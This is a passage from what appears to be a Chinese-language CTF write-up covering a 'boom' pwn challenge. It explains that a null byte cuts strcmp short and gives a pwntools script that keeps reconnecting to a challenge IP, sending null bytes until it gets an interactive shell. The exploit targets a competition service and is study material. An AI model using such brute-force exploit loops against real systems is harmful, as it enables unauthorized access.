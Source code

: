 ```
io.interactive()                   
```

#### [Week 2] boom

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-20.png" alt="img" style="zoom:50%;" />

爆破法，strcmp会被00截断，我们可以写脚本爆破这种情况,第一次做这种题，感觉还挺好玩的

```
from pwn import *
def h():
   io.recvuntil(b'thinking?\n')
   io.send(b'\x00'*0x31)
   a = io.recv()
   print(a)
   if b'WOW' in a:
      io.interactive()

while True:
    try:
       io = remote('47.97.58.52',42000)
       h()
    except:
       io.close()
```
![logo](../images/14.png)
